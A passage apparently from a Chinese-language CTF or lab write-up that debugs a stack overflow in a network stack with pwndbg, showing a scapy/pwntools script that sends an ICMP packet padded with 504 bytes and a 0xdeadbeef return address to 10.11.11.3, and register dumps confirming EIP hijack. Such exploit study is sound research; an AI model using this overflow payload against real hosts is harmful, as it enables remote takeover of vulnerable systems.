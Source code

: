 ```c
   0x61616161    add    byte ptr [eax], al
    ↓
   0x61616161    add    byte ptr [eax], al


──────────────────────────────────[ STACK ]───────────────────────────────────
00:0000│ esp 0x1907fd4 —▸ 0x61616161 —▸ 0 —▸ 0xf000ff53 ◂— 0
... ↓        7 skipped
────────────────────────────────[ BACKTRACE ]─────────────────────────────────
 ► f 0 0x1020c5
   f 1 0x61616161
──────────────────────────────────────────────────────────────────────────────
pwndbg> 
```

经过确认，栈溢出的数据长度为504:

```python
from pwn import *
from scapy.all import *

payload = b'a'*504 + p32(0xdeadbeef)
send(IP(dst="10.11.11.3")/ICMP()/payload)
```

成功劫持eip指针到0xdeadbeef：

```c
pwndbg> c
Continuing.

Breakpoint 1, 0x001020c5 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────[ REGISTERS ]─────────────────────────────────
 EAX  0x10c878 —▸ 0x226 —▸ 0xff53f000 —▸ 0 —▸ 0xf000ff53 ◂— ...
*EBX  0x61616161 —▸ 0 —▸ 0xf000ff53 ◂— 0
*ECX  0x10c4a6 —▸ 0 —▸ 0xf000ff53 ◂— 0
*EDX  0x226 —▸ 0xff53f000 —▸ 0 —▸ 0xf000ff53 ◂— 0
 EDI  0 —▸ 0xf000ff53 ◂— 0
 ESI  0 —▸ 0xf000ff53 ◂— 0
*EBP  0x61616161 —▸ 0 —▸ 0xf000ff53 ◂— 0
 ESP  0x1907fd4 —▸ 0xdeadbeef —▸ 0 —▸ 0xf000ff53 ◂— 0
 EIP  0x1020c5 —▸ 0xe58955c3 —▸ 0 —▸ 0xf000ff53 ◂— 0
──────────────────────────────────[ DISASM ]──────────────────────────────────
 ► 0x1020c5      ret    <0xdeadbeef>
```

那为什么之前gdb不会像以前的pwn一样自动的断到这里呢？

```c
pwndbg> x /10gx 0xdeadbeef
0xdeadbeef:     0x0000000000000000      0x0000000000000000
0xdeadbeff:     0x0000000000000000      0x0000000000000000
0xdeadbf0f:     0x0000000000000000      0x0000000000000000
0xdeadbf1f:     0x0000000000000000      0x0000000000000000
0xdeadbf2f:     0x0000000000000000      0x0000000000000000
pwndbg> i r
eax            0x10c878            1099896
ecx            0x10c4a6            1098918
edx            0x226               550
ebx            0x61616161          1633771873
esp            0x1907fd4           0x1907fd4
ebp            0x61616161          0x61616161
esi            0x0                 0
edi            0x0                 0
eip            0x1020c5            0x1020c5
eflags         0x206               [ IOPL=0 IF PF ]
```